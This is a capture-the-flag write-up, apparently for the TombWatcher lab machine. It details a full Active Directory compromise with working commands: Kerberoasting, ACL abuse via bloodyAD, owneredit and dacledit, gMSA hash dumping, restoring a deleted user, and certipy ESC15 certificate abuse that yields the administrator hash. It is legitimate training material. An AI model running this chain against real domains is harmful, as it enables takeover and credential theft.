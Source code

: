 ## Nutshell
- Some ACL stuff.
- restore deleted user that can request a vulnerable `ESC15` certificate. 
---

IP: 10.10.11.72
Start with credentials `henry` / `H3nry_987TGV!`

Start with the nmap:
```
PORT     STATE SERVICE       REASON          VERSION                                                                                                                                               
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0              
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-09-24 11:07:01Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1/domainComponent=tombwatcher
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)


```

Using Bloodhound we can see our attack path:
![[Z Assets/Images/Pasted image 20250926012245.jpeg]]
we used this command to get the hash of `alfred`:
```
targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
```

I got the alfred hash, and cracked it. The password is:
`alfred`:`basketball`

---

We will at the outbound object control of `alfred`:
![[Z Assets/Images/Pasted image 20250926012634.jpeg]]
```
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u "alfred" -p "basketball" add groupMember 'infrastructure' 'alfred'
```

This group has `ReadGMSAPassword` on `Ansible_DEV` machine, So we can read its NTLM hash:
![[Z Assets/Images/Pasted image 20250926014916.jpeg]]
```
gMSADumper.py -u 'alfred' -p 'basketball' -d 'tombwatcher.htb'
Users or groups who can read password for ansible_dev$:
 > Infrastructure
ansible_dev$:::4f46405647993c7d4e1dc1c25dd6ecf4
ansible_dev$:aes256-cts-hmac-sha1-96:2712809c101bf9062a0fa145fa4db3002a632c2533e5a172e9ffee4343f89deb
ansible_dev$:aes128-cts-hmac-sha1-96:d7bda16ace0502b6199459137ff3c52d

```

This machine has `ForceChangePassword` on `sam` user:
![[Z Assets/Images/Pasted image 20250926021337.jpeg]]
```
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u 'ANSIBLE_DEV$' -p ':4f46405647993c7d4e1dc1c25dd6ecf4' set password "sam" 'basketball'
```

Now, `sam` has `WriteOwner` on `john`:
![[Z Assets/Images/Pasted image 20250926022429.jpeg]]
First, we change from `WriteOwner` to `GenericAll`, then start to exploit as we want: 
```
owneredit.py -action write -new-owner 'sam' -target 'john' 'tombwatcher.htb'/'sam':'basketball' -k
dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'basketball' -k
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u 'sam' -p 'basketball' set password "john" 'basketball'
```

Now, john is joind to `Remote management group`:

![[Z Assets/Images/Pasted image 20250926024847.jpeg]]
And he has `GenericAll` on `ADCS`.

![[Z Assets/Images/Pasted image 20250926025009.jpeg]]

we can do evil-winrm to get the `flag.txt`

---

After doing `win-rm`, we found  deleted users with name `cert_admin` but it is within 3 objects.
```
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects

Deleted           : True             
DistinguishedName : CN=Deleted Objects,DC=tombwatcher,DC=htb    
Name              : Deleted Objects
ObjectClass       : container
ObjectGUID        : 34509cb3-2b23-417b-8b98-13f0bd953319 

Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3,CN=Deleted Objects,DC=tombwatcher,DC=htb     
Name              : cert_admin                                                                              
                    DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
ObjectClass       : user
ObjectGUID        : f80369c8-96a2-4a7f-a56c-9c15edd7d1e3  

Deleted           : True     
DistinguishedName : CN=cert_admin\0ADEL:c1f1f0fe-df9c-494c-bf05-0679e181b358,CN=Deleted Objects,DC=tombwatcher,DC=htb     
Name              : cert_admin
                    DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
ObjectClass       : user
ObjectGUID        : c1f1f0fe-df9c-494c-bf05-0679e181b358  

Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : cert_admin
                    DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
ObjectClass       : user
ObjectGUID        : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
```

Resotre objects:
```
Restore-ADObject -Identity "CN=cert_admin\0ADEL:c1f1f0fe-df9c-494c-bf05-0679e181b358,CN=Deleted Objects,DC=tombwatcher,DC=htb"
```

Looking at bloodhound, we have `GenericAll` on `cert_admin` user, And this user can enroll to certificate that is vulnerable.
![[Z Assets/Images/Pasted image 20250926151132.jpeg]]

![[Z Assets/Images/Pasted image 20250926151222.jpeg]]
```
Certificate Templates
  0
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    [+] User Enrollable Principals      : TOMBWATCHER.HTB\cert_admin
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.

```

We will exploit `ESC15` now:
```
certipy req \
    -u 'cert_admin@tombwatcher.htb' -p 'basketball' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -application-policies 'Certificate Request Agent'

certipy req \
    -u 'cert_admin@tombwatcher.htb' -p 'basketball' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'User' \
    -pfx 'cert_admin.pfx' -on-behalf-of 'TOMBWATCHER.HTB\Administrator'

certipy auth -pfx 'administrator.pfx' -dc-ip '10.10.11.72'
```

Then we got TGT ticket and the hash of administrator:
```
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@tombwatcher.htb': aad3b435b51404eeaad3b435b51404ee:2f071c9718cb504323fc71e083cab2b8
```
GG


---

```steps
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u "alfred" -p "basketball" add groupMember 'infrastructure' 'alfred'
gMSADumper.py -u 'alfred' -p 'basketball' -d 'tombwatcher.htb'

bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u 'ANSIBLE_DEV$' -p ':4f46405647993c7d4e1dc1c25dd6ecf4' set password "sam" 'basketball'
owneredit.py -action write -new-owner 'sam' -target 'john' 'tombwatcher.htb'/'sam':'basketball' -k
dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'basketball' -k
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u 'sam' -p 'basketball' set password "john" 'basketball'

Restore-ADObject -Identity "CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb"

bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u 'john' -p 'basketball' set password "cert_admin" 'basketball'

certipy req \
    -u 'cert_admin@tombwatcher.htb' -p 'basketball' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -application-policies 'Certificate Request Agent'

certipy req \
    -u 'cert_admin@tombwatcher.htb' -p 'basketball' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'User' \
    -pfx 'cert_admin.pfx' -on-behalf-of 'TOMBWATCHER.HTB\Administrator'

certipy auth -pfx 'administrator.pfx' -dc-ip '10.10.11.72'


```



```collecting

bloodhound-ce-python -d tombwatcher.htb  -dc dc01.tombwatcher.htb -u 'john@tombwatcher.htb' -p 'basketball' -ns 10.10.11.72 --collection All --zip
rusthound-ce -u 'john' -p 'basketball' -d tombwatcher.htb -f dc01.tombwatcher.htb

```

pre2k